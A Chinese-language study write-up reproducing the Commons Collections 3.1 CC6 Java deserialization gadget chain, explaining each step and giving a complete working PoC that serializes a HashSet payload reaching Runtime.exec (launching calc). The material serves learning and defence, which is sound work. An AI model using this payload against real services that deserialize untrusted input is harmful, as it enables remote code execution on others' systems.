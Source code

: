 # 环境搭建

- JDK 1.8
- Commons Collections 3.1

```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
</dependencies>
```

# 利用链分析

**利用链**

```
Gadget chain:
        java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            ...
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
    by @matthias_kaiser
*/
```

在CC5中,我们通过toString来回调了TiedMapEntry.getValue方法,但是这个类还有另外一个hashCode方法也能调用getValue方法

![image-20220127114952220](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220127114952220.png)

那就去找一个调用hashCode的地方,还记得在复现URLDNS链的时候我们去调用了URL.hashCode方法

同样的找到了HashMap的hash方法去调用hashCode

![image-20220127115219825](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220127115219825.png)

当时是通过HashMap重写的readObject来触发hash函数的,但是在CC6中都是利用HashSet重写的readObject方法调用put在调用hash方法

```
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

HashSet中readObject方法

![image-20220127115534888](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220127115534888.png)

因为e这个变量是从readObject中读出来的,可以在序列化是就添加进去,可以直接利用HashSet的add函数

这里的e就是hashCode的Key参数,应该为TiedMapEntry对象

对应的poc代码

```
TiedMapEntry tiedMap = new TiedMapEntry(outmap,123);
HashSet hashset =  new HashSet();
hashset.add(tiedMap);
```

不过这个add方法要注意了

```
public boolean add(E e) {
    return map.put(e, PRESENT)==null;
}
```

发现他也会调用一次put方法,会和我们原本的利用链走的路径一样也会进行一次命令执行

所以这里为了区分,我们就写两个命令执行的代码,真正反序列化执行的代码在add方法后通过反射修改

所以最后的poc

```
package CC6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CC6payload {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer[] faketransformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"notepad.exe"})
        };
        ChainedTransformer chain = new ChainedTransformer(faketransformers);

        Map innermap = new HashMap();
        Map outmap = LazyMap.decorate(innermap,chain);

        TiedMapEntry tiedMap = new TiedMapEntry(outmap,123);
        HashSet hashset =  new HashSet();
        hashset.add(tiedMap);
        outmap.remove(123);

        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chain, transformers);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC6.bin"));
        os.writeObject(hashset);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC6.bin"));
        fos.readObject();
    }
}
```

这里发现和之前有区别的一个地方是多了应该remove方法

因为我们add方法也会调用到LazyMap的get方法

```
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

之前我们都只调用过一次LazyMap方法,只关注了进入if调用transform方法

但是这个if进去后会对我们传入的key添加一个value也就是一个映射,所以当第二次执行到这个get方法的时候,map.containsKey(key)的返回值会为true,不会进入if,所以我们在执行完add方法后要删除这个key对应的映射

这样在反序列化的时候才会进入if

# 漏洞复现

![image-20220127121707053](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220127121707053.png)

add执行的虚假命令和我们最后要执行的命令都执行成功

# 注意的问题

add方法也会执行一次命令,所以需要区分前面命令的差异并且删除掉get方法添加的映射以便反序列化的时候进入if执行真正要执行的命令

